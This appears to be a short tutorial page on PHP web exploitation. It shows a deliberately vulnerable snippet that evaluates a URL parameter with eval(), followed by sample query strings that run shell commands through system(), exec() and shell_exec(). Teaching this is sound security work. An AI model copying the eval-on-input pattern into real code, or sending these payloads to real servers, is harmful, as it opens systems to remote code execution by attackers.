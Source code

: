 ```yaml
---
description: PHP web exploitation
---
```


# PHP

PHP stands for Hypertext Preprocessor. Being a scripting language like Python, PHP does not require compilation. It offers server-side scripting which allowed to creating dynamic web contents.&#x20;

Due to its characteristics of dynamic interaction with user's input, it can be vulnerable without proper user input filtering.

Below is the one of example that can be exploited. It is a simple code that receive user input and evaluate the input as PHP code.

```php
<?php
$input=$_GET['search'];
eval($input);
?>
```

<figure><img src=".gitbook/assets/image (9).png" alt=""><figcaption><p><a href="https://www.php.net/manual/en/function.eval.php">https://www.php.net/manual/en/function.eval.php</a></p></figcaption></figure>

```php
/?search=system("ls -la");
/?search=echo exec("ls -la");
/?search=echo shell_exec("ls -la");
```

This simple URL parameter could simply lead to entry point for attackers.&#x20;
